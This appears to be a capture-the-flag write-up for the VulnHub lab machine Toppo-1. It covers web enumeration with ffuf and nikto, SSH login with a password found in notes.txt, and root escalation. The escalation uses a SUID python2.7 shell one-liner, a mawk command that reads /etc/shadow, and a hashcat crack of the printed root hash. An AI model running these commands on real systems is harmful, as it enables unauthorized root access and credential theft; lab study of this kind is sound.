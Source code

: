# Recon
## TCP/80 - HTTP
### FFUF
```
┌──(root💀kali)-[~/vulnHub/Toppo-1]
└─# ffuf -u  http://192.168.110.6/FUZZ -w /usr/share/wordlists/dirb/common.txt -e '.html,.txt,.php' -fw 22

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.110.6/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .html .txt .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 22
________________________________________________

about.html              [Status: 200, Size: 5030, Words: 1293, Lines: 130]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
contact.html            [Status: 200, Size: 7016, Words: 1892, Lines: 170]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
img                     [Status: 301, Size: 312, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 6437, Words: 2028, Lines: 184]
index.html              [Status: 200, Size: 6437, Words: 2028, Lines: 184]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
LICENSE                 [Status: 200, Size: 1093, Words: 156, Lines: 22]
mail                    [Status: 301, Size: 313, Words: 20, Lines: 10]
manual                  [Status: 301, Size: 315, Words: 20, Lines: 10]
post.html               [Status: 200, Size: 8262, Words: 2059, Lines: 168]
vendor                  [Status: 301, Size: 315, Words: 20, Lines: 10]
:: Progress: [18460/18460] :: Job [1/1] :: 363 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
- `admin`
- `mail`

### Nikto
```
┌──(root💀kali)-[~/vulnHub/Toppo-1]
└─# nikto -ask=no -h http://192.168.110.6:80 2>&1 | tee "/root/vulnHub/Toppo-1/192.168.110.6/scans/tcp80/tcp_80_http_nikto.txt"
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.110.6
+ Target Hostname:    192.168.110.6
+ Target Port:        80
+ Start Time:         2022-01-29 01:29:32 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 1925, size: 563f5cf714e80, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /package.json: Node.js package file found. It may contain sensitive information.
+ 7915 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2022-01-29 01:30:25 (GMT8) (53 seconds)
-------------------------------------------------------------------------
```
- `package.json`


# Initial Foothold
## TCP/80 - HTTP - Rabbit Hole
1. View enumerated directories
	- `admin`
		![](Pasted%20image%2020220129013752.png)
		- `notes.txt`
	- `notes.txt`
		![](Pasted%20image%2020220129013825.png)
		- ted?
		- 12345ted123
	- `package.json`
		![](Pasted%20image%2020220129014026.png)
	- `mail`
		![](Pasted%20image%2020220129014239.png)
2. Detect LFI vulnerability at `contact_me.php`
	```
	┌───(root💀kali)-[~/vulnHub/Toppo-1]
	└─# ffuf -u http://192.168.110.6/mail/contact_me.php?W2:W1 -w /usr/share/wordlists/LFI/file_inclusion_linux.txt:W1 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt:W2  -fw 3

			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.110.6/mail/contact_me.php?W2:W1
	 :: Wordlist         : W1: /usr/share/wordlists/LFI/file_inclusion_linux.txt
	 :: Wordlist         : W2: /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 3
	________________________________________________

	:: Progress: [3103145/5820412] :: Job [1/1] :: 3972 req/sec :: Duration: [0:12:20] :: Errors: 0 
	```
	- Not susceptible to LFI
3. At this point, I think TCP/80 is a rabbit hole

## TCP/22 - SSH 
1. SSH with ted:12345ted123
	![](Pasted%20image%2020220129020027.png)

# Privilege Escalation
## Root - Via SUID Binary (GTFO BIN)
1. Enumerate SUID Binaries
	```
	ted@Toppo:~$ find / -perm -4000 2>/dev/null 
	/sbin/mount.nfs
	/usr/sbin/exim4
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/lib/openssh/ssh-keysign
	/usr/bin/gpasswd
	/usr/bin/newgrp
	/usr/bin/python2.7
	/usr/bin/chsh
	/usr/bin/at
	/usr/bin/mawk
	/usr/bin/chfn
	/usr/bin/procmail
	/usr/bin/passwd
	/bin/su
	/bin/umount
	/bin/mount
	```
	- `python2.7` has a [GTFOBins](https://gtfobins.github.io/gtfobins/python/) entry
	- `mawk` also has a [GTFOBins](https://gtfobins.github.io/gtfobins/mawk/) entry
2. Exploit `python2.7` to spawn a root shell
	```
	/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
	```
	![](Pasted%20image%2020220129020551.png)
3. Exploit `mawk` to read root's hash
	```
	LFILE=/etc/shadow
	ted@Toppo:~$ /usr/bin/mawk '//' "$LFILE" | grep root | cut -d ":" -f2
	$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0
	```
4. Crack hash
	```
	┌──(root💀kali)-[~/vulnHub/Toppo-1]
	└─# hashcat -a 0 -m 1800 '$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0' /usr/share/wordlists/rockyou.txt --show
	$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0:test123
	```
	- root:test123	
5. Root Flag
	```
	# cd /root
	# ls 
	flag.txt
	# cat f	
	cat: f: No such file or directory
	# cat flag.txt
	_________                                  
	|  _   _  |                                 
	|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
		| |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
	   _| |_ | \__. | | \__/ | | \__/ || \__. | 
	  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
					 [__|     [__|              




	Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
	```



---
Tags: #linux-priv-esc/suid/gtfo-bin 

---